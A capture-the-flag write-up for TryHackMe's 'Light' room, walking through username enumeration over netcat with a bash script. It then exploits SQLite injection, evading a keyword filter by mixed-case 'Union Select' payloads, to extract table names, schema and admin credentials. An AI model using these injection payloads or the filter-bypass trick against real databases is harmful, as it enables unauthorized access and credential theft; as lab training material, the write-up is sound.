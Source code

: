 ```yaml
---
description: '#sqli, #sqlite'
---
```


# Light

**Date**: 09/02/2025

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/lightroom](https://tryhackme.com/room/lightroom)

—

I am working on a database application called Light! Would you like to try it out?

If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.238.192 1337`. You can use the username `smokey` in order to get started.

***

Let’s start by connecting via **netcat** to the target machine using the port 1337 as it’s said in the machine’s description.

<figure><img src="../../.gitbook/assets/light0.png" alt=""><figcaption></figcaption></figure>

It looks like a client that asks you for an username and, if it exists, it returns the password of that user (or it seems so). I used the username provided in the description and got its password. Tried also with `admin` and `root` usernames without any success.

```php
smokey:vYQ5ngPpw8AdUmL
```

Let’s do a port scan to see if there is any other service running on the target machine:

<figure><img src="../../.gitbook/assets/light1.png" alt=""><figcaption></figcaption></figure>

The SSH port is open.

<figure><img src="../../.gitbook/assets/light2.png" alt=""><figcaption></figcaption></figure>

And it’s using OpenSSH, so let’s try to log in using the smokey credentials:

<figure><img src="../../.gitbook/assets/light3.png" alt=""><figcaption></figcaption></figure>

Too easy to be true. As this client asks for a username, and if it exists returns a message with the password I asked ChatGPT for a simple bash program that will read from a username list file, send each username to the client and wait for the response.

```php
#!/bin/bash

# Verify that the 3 parameters had been set
if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <IP> <PORT> <USERLIST>"
    exit 1
fi

IP="$1"
PORT="$2"
USERLIST="$3"

# Verify the userlist exists
if [ ! -f "$USERLIST" ]; then
    echo "The file $USERLIST does not exist."
    exit 1
fi

# Connect with netcat and manage the communication
coproc nc_proc { nc -v "$IP" "$PORT"; }
exec 3<&${nc_proc[0]} 4>&${nc_proc[1]}

# Read and wait for the Welcome message
while IFS= read -r line <&3; do
    echo "$line"
    if [[ "$line" == *"Welcome to the Light database!"* ]]; then
        break
    fi
done

# Initialitate counter
lineNumber=0

# Read the file lines and process
while IFS= read -r user; do
    ((lineNumber++))
    
    # Wait for the "username" message
    while IFS= read -r -d ": " line <&3; do
        # echo "$line"
        if [[ "$line" =~ "username" ]]; then
            # Send username with the explicit line jump
            echo -e "$user\n" >&4
            break
        fi
    done
    
    # Wait response
    while IFS= read -r line <&3; do
        # echo "$line"
        if [[ "$line" =~ "Password" ]]; then
            pass=$(echo "$line" | awk '{print $NF}')
            echo "[!] $user : $pass"
            break
        else
            break
        fi
    done

done < "$USERLIST"

# Close connections
exec 3<&-
exec 4>&-
```

Using this tool along with a username list from SecLists, I managed to discover some usernames and their passwords.

<figure><img src="../../.gitbook/assets/light4.png" alt=""><figcaption></figcaption></figure>

```php
[!] michael : 7DV4dwA0g5FacRe
[!] john :    e74tqwRh2oApPo6
[!] steve :   WObjufHX1foR8d7
[!] battery : vYQ5ngPpw8AdUmL
[!] internet :YO1U9O1m52aJImA
[!] logan :   yAn4fPaF2qpCKpR
[!] Joseph :  tF8tj2o94WE4LKC
```

I tried to connect via SSH using that credentials, without success. At that time I was wondering if the passwords could be encoded, but after some tries I didn’t managed to decoded them.

Doing a recap I realized that I overlooked something… The first message is telling me that I’m accessing a database. Let’s check if it’s vulnerable to SQL Injection:

<figure><img src="../../.gitbook/assets/light5.png" alt=""><figcaption></figcaption></figure>

It seems to be vulnerable! By looking at the error thrown, I guess that the query that the server is done should be something like `SELECT password FROM database WHERE username = '$USER_INPUT' LIMIT 30;`

Apparently, the user input is being filtered, because it doesn’t allow me to send `--`,`/*` or `%0b`, so I’m unable to comment the final part of the query.

<figure><img src="../../.gitbook/assets/light6.png" alt=""><figcaption></figcaption></figure>

I sent `smokey' union select schema_name from information_schema.schemata` so, if my guess is not wrong, the complete query should be something like `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata' LIMIT 30;`

The client throws an error, telling me that it doesn’t like a word I sent. I tried sending `union` and it seems to be the problematic word. If I send an uppercase `UNION` it throws the same error, but if I use a combination of uppercase and lowercase letters, the client allows the input. Knowing that, I’ll use this combination to write every key word just in case.

I also noticed that my query was not correct, so I fixed it to be `smokey' Union Select schema_name From information_schema.schemata Union Select '` so the complete query should be: `SELECT password FROM database WHERE username = 'smokey' union select schema_name from information_schema.schemata Union Select '' LIMIT 30;`

<figure><img src="../../.gitbook/assets/light7.png" alt=""><figcaption></figcaption></figure>

And the client reported that the database has no the table **information\_schema.schemata**. It might mean that the database is not using MySQL and maybe is using SQL Lite. According to this page of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) we can extract the database table name by using the query `SELECT tbl_name FROM sqlite_master WHERE type='table'`, so let’s try it:

`Smokey' Union Select tbl_name From sqlite_master Where type='table`

<figure><img src="../../.gitbook/assets/light8.png" alt=""><figcaption></figcaption></figure>

The output of the client says that the name of the table is **admintable**. I messed it up by changing the username from smokey to Smokey, but it seems to work (and it doesn’t add more text to the output), so let’s continue like that.

Now, let’s try to extract the column names of **admintable** by using the input: `Smokey' Union Select sql From sqlite_master Where type!='meta' And sql Not Null And name='admintable`

<figure><img src="../../.gitbook/assets/light9.png" alt=""><figcaption></figcaption></figure>

The column names are **id**, **username** and **password**. Now we can try to extract the username and passwords of all users:

`Smokey' Union Select username From admintable Where id='1`

`Smokey' Union Select password From admintable Where id='1`

<figure><img src="../../.gitbook/assets/light10.png" alt=""><figcaption></figcaption></figure>

The user assigned to **id=1** seems to be the admin user…

<figure><img src="../../.gitbook/assets/light11.png" alt=""><figcaption></figcaption></figure>

I tried to log in via SSH using that credentials, but nope.

<figure><img src="../../.gitbook/assets/light12.png" alt=""><figcaption></figcaption></figure>

Also, the database client doesn’t seems to recognize the username.

<figure><img src="../../.gitbook/assets/light13.png" alt=""><figcaption></figcaption></figure>

By enumerating the next id from the database, I found the flag of this CTF.
